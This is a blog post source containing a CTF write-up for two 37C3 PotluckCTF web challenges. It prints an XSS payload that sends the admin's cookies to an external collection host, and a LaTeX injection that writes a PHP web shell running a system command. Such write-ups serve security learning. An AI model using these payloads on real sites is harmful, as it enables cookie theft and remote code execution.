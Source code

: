 ```yaml
---
layout: post
title: PotluckCTF 37C3 - Challenges/Writeups
categories: [CTF Jeopardy]
tags: [ctf jeopardy,web,cookies,xss,latex,rce]
permalink: /posts/37c3potluckctf
img_path: /images/ctfs/37c3potluckctf/
datafile: 37c3potluckctf
image:
  path: icon.png
---
```


My team participated in the 37C3 PotluckCTF and got one challenge, though I personally got painfully close to another one... The following is a writeup/walkthrough of how each flag was grabbed and the thought process for each.

You can join the Discord community for this CTF (with more writeups!) [here](https://discord.gg/nFQHHjCmU3).

## web/Encoderchef (161 solves)
Created by: `ntomsic`

> I heard Cyberchef is monitored by GCHQ so I am trying to build my own version. It is still under construction so if you see any problems with the site just send a link to the admin and they will have a look :) // (Flag is in admin cookie)

Our site is a converter of text to various formats, like base64, hex, binary, etc.

![Converter](encoderchef_1.png)

We are also given the source code of the page, aswell as an 'admin' page. This 'admin' page has a URL input for the admin to visit.

![Admin URL Visiting Page](encoderchef_2.png)

If we can find an exploit to steal the admin's cookies (as they said in the description). We get the flag!

```php
$output = "Example output";
if ((isset($_GET["input"]) && !is_null($_GET["input"])) && (isset($_GET["encoding"]) && !is_null($_GET["encoding"]))){
	$input = base64_decode($_GET["input"]);

	if($input === false){
		$output = "Invalid input";
	} else {
		switch ($_GET["encoding"]) {
			case "base64":
				$output = base64_encode($input);
				break;
```
A portion of the code catches my eye, specifically the base64 input. If we can put in a base64 input that decodes to HTML tags, we can cause an XSS!

Payload:

```html
</textarea>
<script>
i=document.createElement("img");
i.src="https://******************************.oastify.com?c="+btoa(document.cookie);
document.body.appendChild(i);
</script>
<textarea>
```

Encoding our payload with Base64 and then URL encoding it, and making a final url gives us this: `http://[url]:31337/?encoding=base64&input=[payload]`

And sending it to the admin, sends us back our Base64 encoded cookies with our flag!

Flag: <mark>flag="potluck{uu_make_me_go_crazy}"</mark>

**Files:** None provided :(

## web/Santify (58 solves)
Created by: `13x1`
> I found this shop that claims to provide ""delivery via reindeer sleigh"". I ordered a few things, but the cards did not arrive on time! Please find out what went wrong.<br>Anyway, check out their web page<br>Note: Any accounts named ADMIN, BOT or similar are regular users and not part of the challenge, please ignore them


**I didn't completely solve this challenge during the CTF, but got painfully close...**

The card creation page is the following:

![Card Creation](santify_1.png)

The header text is of key importance, as it mentions `pdflatex`. LaTeX has some interesting capabilities that are listed nicely on [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/LaTeX Injection).

Injecting some math operation in LaTeX, I try to read a 'flag'...

![LFI Attempt](santify_2.png)

... Fair enough.

I found that we have the capabilites to write files, by doing the following.

```latex
\newwrite\outfile
\openout\outfile=test.log
\write\outfile{test!}
\closeout\outfile
```

Looking at our LaTeX log were given where the files are uploaded, from there we can look at our uploaded file. Cool, now what...

We can't really 'read' the binary as LaTeX isn't very good at handling extended unicode without importing packages, and trying to run the command injection payloads fails as they are using the `-no-shell-escape` flag, which restricts usage of `/write18{cmd}`.

**This part I did not get during the competition.**

What I needed to do was write a PHP webshell, as the website is run on PHP which can be seen in file names in other portions of the site (index.php, send-card.php, render-LaTeX.php, etc.).

```latex
\newwrite\outfile
\openout\outfile=cmd.php
\write\outfile{<?php system("/app/readflag");}
\closeout\outfile
```

Now you visit the endpoint it was uploaded to (`/images/<random guid>/cmd.php`) you will see the flag.

**Files:** None provided :(


## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

You can also find my other contacts on the [whoami](../about) page.

## Unsolved & Challenge Archival
A list of challenges I didn't solve, and the downloads (if provided) to try them for yourself! All challenges are sorted by solve count.
{% assign sortedcategories = site.data.ctfs[page.datafile] | sort: 'name' %}
{% for category in sortedcategories %}
	{% assign solved = 0 %}
	{% for chal in category.chals %}
		{% unless chal.solved %}
			{% assign solved = solved | plus: 1%}
		{% endunless %}
	{% endfor %}
### {{ category.name }} - {{ category.chals.size | minus: solved }}/{{ category.chals.size }} solved
	{% assign sortedchals = category.chals | sort: 'solves' %}
	{% for chal in sortedchals reversed %}
<details markdown="1">
<summary>{%if chal.solved%}✅ {%endif%}{{chal.name}}{%if chal.solves%} - {{chal.solves}} solve{%if chal.solves != 1%}s{%endif%}{%endif%}</summary>
	{%if chal.creator%}
Created by: `{{chal.creator}}`
	{%endif%}
	{%if chal.desc%}
> {{chal.desc}}
	{%endif%}
**Files:** {% if chal.files %}{% for file in chal.files %}[{{ file.name }}]({{ file.url }}) {% endfor %}{% else %}None provided :({% endif %}
</details>
	{% endfor %}
{% endfor %}

